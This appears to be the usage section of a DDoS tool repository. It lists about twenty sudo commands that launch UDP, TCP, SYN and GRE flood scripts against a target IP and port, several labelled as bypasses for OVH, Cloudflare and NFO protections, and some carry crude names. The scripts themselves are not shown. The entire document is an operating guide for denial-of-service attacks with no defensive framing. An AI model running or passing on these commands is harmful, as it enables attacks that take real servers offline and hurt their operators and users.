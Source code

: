 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip% %port% 9999 0 9999

OVH-V2 : sudo ./ovhbypass2 %ip% %port% 999999 udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 999999 ack

HEX : sudo ./HEX OVH %ip% %port% 999999

NUKE-BYPASS : sudo ./HiperOVH %ip% %port%

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 999999

ETHERA : sudo ./ETHERA %ip% %port%

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 999999

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 999999

R4P3 : sudo ./gre %ip% 10 -1 999999

NFO : sudo ./NFO %ip% %port% 10 -1 999999

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %ip% %port% 5500 999999

UDP-BYPASS : sudo perl UDP-BYPASS.pl %ip% 999999

NULL : sudo perl UDP_NULL.pl %ip% 999999

PATH : sudo perl UDP_BPSS.pl %ip% %port% 5500 9999

UDP-MIX : sudo perl UDP_MIX.pl %ip% 9999

TCP_NUKE : sudo perl TCP_VOX.pl %ip% 9999

OVH-RAPE : sudo perl OVHBYPASS.pl %ip% %port% 9999
